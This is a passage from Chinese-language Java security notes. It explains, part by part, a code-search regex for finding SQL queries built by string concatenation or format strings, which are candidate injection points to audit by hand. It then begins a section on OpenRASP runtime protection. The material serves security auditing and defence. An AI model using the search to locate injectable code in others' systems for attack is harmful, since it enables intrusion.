    /(("|')(select) (.*)(%s([\w\d\s]*)("|')|("|')[\s]+\+))/ language:java
    
    # java里字符串的声明可以是双引号或者单引号
    [ ("|') ]
    
    # 字符串开头就是【select ...】
    [ (select) (.*) ]
    
    # 找到一个%s，或许存在格式化字符串
    [ %s([\w\d\s]*)("|') ]
    
    # 或者直接动态拼接字符串的
    [ ("|')[\s]+\+)) ]
    ```

    可以看到搜素到了不少的动态拼接SQL语句的代码，尽管还有脏数据但数量很少了，可以不用理会。需要注意的是，这种搜素方法必然有很高的误报率，还需要我们一个一个人工审计确认是否存在漏洞。

## java漏洞防护

### OpenRASP

> http://blog.nsfocus.net/rasp-tech/

OpenRASP是由百度开源的RASP。

RASP（Runtime application self-protection）运行时应用自我保护。RSAP将自身注入到应用程序中，与应用程序融为一体，实时监测、阻断攻击，使程序自身拥有自保护的能力。并且应用程序无需在编码时进行任何的修改，只需进行简单的配置即可
